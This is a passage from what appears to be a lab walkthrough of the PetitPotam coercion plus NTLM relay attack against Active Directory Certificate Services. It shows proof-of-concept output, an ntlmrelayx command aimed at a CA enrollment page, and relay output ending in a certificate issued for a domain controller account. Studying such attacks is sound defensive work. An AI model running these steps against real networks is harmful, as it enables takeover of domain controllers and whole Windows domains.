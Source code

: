     PoC to connect to lsarpc and elicit machine account authentication via MS-EFSRPC EfsRpcOpenFileRaw()
                                          by topotam (@topotam77)

                         Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

    [-] Connecting to ncacn_np:dc0[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```
1. Save the resulting output certificate and key as two separate files (including the **-----BEGIN CERTIFICATE-----** and **-----END CERTIFICATE-----** lines).
    * Example ntlmrelayx output
    ```bash
    (impacket2) root@gateway0:/home/lab_user/impacket2# python examples/ntlmrelayx.py -t https://ca/certsrv/certfnsh.asp -smb2support               

    <trimmed>
                    
    [*] Servers started, waiting for connections                                               
    [*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target https://ca                                                            
    [*] HTTP server returned error code 200, treating as a successful login                                                                        
    [*] Authenticating against https://ca as LAB/DC0$ SUCCEED      
    [*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target https://ca
    [*] HTTP server returned error code 200, treating as a successful login               
    [*] Authenticating against https://ca as LAB/DC0$ SUCCEED                                                                                          
    [*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target https://ca
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against https://ca as LAB/DC0$ SUCCEED      
    [*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target https://ca
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against https://ca as LAB/DC0$ SUCCEED                                   
    [*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target https://ca
    Performing certifiate request attack                            
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against https://ca as LAB/DC0$ SUCCEED                                                                                       
    Performing certifiate request attack                            
    Skipping user DC0$ since attack was already performed                                                                                             
    Performing certifiate request attack                            
    Skipping user DC0$ since attack was already performed          
    Performing certifiate request attack                                               
    Skipping user DC0$ since attack was already performed                                                                                              
    Performing certifiate request attack                                               
    Skipping user DC0$ since attack was already performed                
    Cert issued OK!                             
    Got signed cert for DC0$!                     
    Cert:                                                                              
    -----BEGIN CERTIFICATE-----                                                                                            
    MIIFizCCBHOgAwIBAgITWgAAAEEOMlyBMFMiNAAAAAAAQTANBgkqhkiG9w0BAQsF     
    ADBAMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgNsYWIx
    EjAQBgNVBAMTCWxhYi1DQS1DQTAeFw0yMTA4MDYxNzQ3NDdaFw0yMjA4MDYxNzQ3
    NDdaMBgxFjAUBgNVBAMTDWRjMC5sYWIubG9jYWwwggEiMA0GCSqGSIb3DQEBAQUA
    A4IBDwAwggEKAoIBAQCiHmUA8e692UunjVDi6PXXPIjkQ8vzMVfyi/TQRCRnpWS2
    QawIVDCU8ty6wakT634Zg60PWO5G75K8elAKf/JVJwLTL9hjwe3EdIsPyCGz6VWO
    <trimmed>
    DWerPaknCcSXfbh9iE8n3Cvoa0OfBjBnCpEm12EAQgBgOXMUEYax4DOheHsmivXT
    5E2z9OMTbYEXbiK5ZhNdY+MPl4oDbEmBTdH5SbsubAuvydeIkeYr3nlkLp2G09RI
    mSym+nIOu5uQeU9YxVWBtvURBjhvNV+9Km7u3nvn82CSLESBujXdOJaS0EANQnJT
    6m8I/1NyIcs/Y+EB8rUr+rc9S78KHRE7y3bFCG2s7Q==
    -----END CERTIFICATE-----
